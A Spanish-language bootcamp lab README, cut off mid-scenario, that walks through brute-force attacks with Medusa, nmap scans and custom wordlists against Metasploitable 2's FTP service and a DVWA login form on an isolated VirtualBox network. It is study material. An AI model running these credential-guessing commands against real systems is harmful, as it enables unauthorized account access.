🌐 **Languages:** [Português](README.md) | [English](README.en.md) | [Español](README.es.md)

# 🛡️ Laboratorio de Ciberseguridad: Simulación de Ataques de Fuerza Bruta y Mitigaciones con Medusa

Proyecto práctico desarrollado como parte del bootcamp **Santander - Cibersegurança do Zero à Prática** en la plataforma [DIO](https://dio.me).

---

## ⚖️ Aviso Legal y Ético (Disclaimer)

> **Aviso:** Todo el contenido de este laboratorio se ejecutó estrictamente en un entorno virtual aislado y controlado (*Host-Only* en VirtualBox) con propósitos exclusivamente educativos y de análisis de vulnerabilidades, de conformidad con las buenas prácticas éticas y la legislación aplicable (Ley brasileña nº 12.737/2012 - Delitos Informáticos).

---

## 🎯 Objetivos del Proyecto

- Configurar y operar un entorno de pruebas seguro utilizando VirtualBox.
- Comprender de forma práctica el funcionamiento de los ataques de fuerza bruta (*brute force*) y pulverización de contraseñas (*password spraying*).
- Utilizar la herramienta **Medusa** en **Kali Linux** para la auditoría de seguridad en servicios de red.
- Documentar procesos técnicos y evidencias con estándares profesionales.
- Proponer contramedidas y controles de seguridad defensiva (*Blue Team*) para la mitigación de riesgos.

---

## 🖥️ Configuración del Entorno y Reconocimiento Inicial

### Topología de Red
| Máquina Virtual | Sistema Operativo | Rol / Función | Dirección IP |
| :--- | :--- | :--- | :--- |
| **Atacante** | Kali Linux | Ejecución de pruebas y auditoría | `192.168.56.102` |
| **Objetivo** | Metasploitable 2 | Alojamiento de servicios vulnerables | `192.168.56.101` |

Ambas máquinas fueron configuradas en una red interna aislada en VirtualBox (*Host-Only Network*).

---

### Paso 1: Inicialización del Entorno en VirtualBox
Inicio y verificación de ambas máquinas virtuales en ejecución dentro del segmento de red aislado.



---

### Paso 2: Identificación de la Dirección IP del Objetivo
Verificación de la dirección IP asignada directamente en la consola de la máquina objetivo (Metasploitable 2):

```bash
ip a
```
> La dirección IP identificada de la máquina vulnerable fue `192.168.56.101`.



---

### Paso 3: Prueba de Conectividad de Red
Ejecución de una solicitud de eco ICMP (ping) desde la máquina atacante (Kali Linux) para validar la comunicación:

```bash
ping -c 4 192.168.56.101
```



---

### Paso 4: Enumeración de Puertos y Servicios (Nmap)
Escaneo dirigido para identificar las versiones de los servicios activos en los puertos bajo análisis:

```bash
nmap -sV -p 21,22,80,445,139 -n 192.168.56.101
```
- `-sV`: Detecta la versión de los servicios en ejecución.
- `-p 21,22,80,445,139`: Escanea específicamente los puertos evaluados (FTP, SSH, HTTP y SMB).
- `-n`: Desactiva la resolución inversa de DNS para acelerar el escaneo en redes locales aisladas.



---

## 📂 Escenario 1: Ataque de Fuerza Bruta en Servicio FTP (Puerto 21)

El protocolo clásico FTP (*File Transfer Protocol*) transmite credenciales en texto claro. Al combinarse con contraseñas débiles y la ausencia de políticas de bloqueo de cuentas, representa un vector de intrusión crítico.

---

### Paso 1: Validación Manual del Servicio FTP
Confirmación de que el servicio FTP en el puerto 21 se encontraba activo y aceptando conexiones entrantes:

```bash
ftp 192.168.56.101
```



---

### Paso 2: Creación de Wordlists Personalizadas
Generación de diccionarios de prueba con usuarios y contraseñas candidatos:

```bash
# Diccionario de nombres de usuario
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt

# Diccionario de contraseñas potenciales
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt
```



---

### Paso 3: Verificación de Contenido de los Archivos
Inspección de las listas creadas mediante el comando `cat`:

```bash
cat users.txt
cat pass.txt
```



---

### Paso 4: Ataque de Fuerza Bruta con Medusa
Ejecución del ataque automatizado contra el servicio FTP:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6 -f
```
**Parámetros explicados:**
- `-h 192.168.56.101`: Dirección IP del host objetivo.
- `-U users.txt`: Archivo con la lista de usuarios.
- `-P pass.txt`: Archivo con la lista de contraseñas.
- `-M ftp`: Módulo de Medusa para el protocolo FTP.
- `-t 6`: Lanza 6 hilos paralelos para optimizar el tiempo de auditoría.
- `-f`: Detiene la ejecución en cuanto encuentra el primer par válido de credenciales (*stop on first hit*).



---

### Paso 5: Validación Práctica de las Credenciales Obtenidas
Autenticación real en el servicio FTP empleando las credenciales descubiertas por Medusa (`msfadmin:msfadmin`):

```bash
ftp 192.168.56.101
```
> **Resultado:** Acceso autorizado concedido exitosamente a la consola FTP del servidor objetivo.



---

## 📂 Escenario 2: Fuerza Bruta en Formulario Web (DVWA - Puerto 80)

Los portales web de autenticación son objetivos prioritarios en auditorías de seguridad. Al carecer de controles de tasa, desafíos humanos (CAPTCHA) o tokens de sesión, quedan vulnerables a ataques automatizados de diccionario y fuerza bruta.

En este escenario se auditó la aplicación web **DVWA (Damn Vulnerable Web App)** alojada en el servidor objetivo.

---

### Paso 1: Acceso al Portal Web Objetivo
Navegación desde Kali Linux hacia la URL de autenticación: `http://192.168.56.101/dvwa/login.php`.



---

### Paso 2: Intento Manual e Inspección de Tráfico HTTP (F12)
Análisis de parámetros del formulario y respuestas del servidor mediante las herramientas de desarrollador (**F12**):
1. Acceso a la pestaña **Network** (Red).
2. Envío de un intento de inicio de sesión con datos arbitrarios (`username: "teste"` y `password: "senha123"`).
3. Inspección de los parámetros enviados vía método **POST** en el submenú **Request**:
   - `username`: Campo de usuario (`"teste"`).
   - `password`: Campo de contraseña (`"senha123"`).
   - `Login`: Botón de envío con valor fijo `"Login"`.
4. Identificación de la respuesta de error del servidor: mensaje `Login failed` acompañado de una redirección HTTP con código `302 Found`.



---

### Paso 3: Preparación de Wordlists para Aplicación Web
Generación y comprobación de diccionarios específicos para la prueba web:

```bash
# Creación de listas
echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

# Verificación de contenido
cat users.txt
cat pass.txt
```



---

### Paso 4: Prueba Inicial con Medusa y Diagnóstico de Falso Positivo
Ejecución del intento inicial mediante Medusa empleando el módulo `-M http`:

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER^&password=^PASS^&Login=Login' -m 'FAIL=Login failed' -t 6
```

**Diagnóstico Técnico (Falso Positivo):**
El módulo `http` de Medusa está diseñado para autenticación básica por encabezados HTTP (código 401). Como el servidor web respondió con código `200 OK` (la página HTML renderizada normalmente), Medusa descartó los parámetros personalizados e interpretó todas las solicitudes como **exitosas**, produciendo múltiples **Falsos Positivos**.



---

### Paso 5: Diagnóstico del Módulo Web-Form (Error HTTP 302)
Prueba del módulo nativo para formularios web (`-M web-form`):

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M web-form -m FORM:"dvwa/login.php" -m FORM-DATA:"post?username=&password=&Login=Login" -m DENY-SIGNAL:"Login failed" -t 6
```

**Diagnóstico Técnico:**
El comando arrojó el error `ERROR: ... error code 302`. El módulo `web-form` de Medusa espera una respuesta directa en código `200 OK` y no gestiona redirecciones HTTP inmediatas (`302 Found`), abortando la ejecución antes de probar las credenciales correctas.

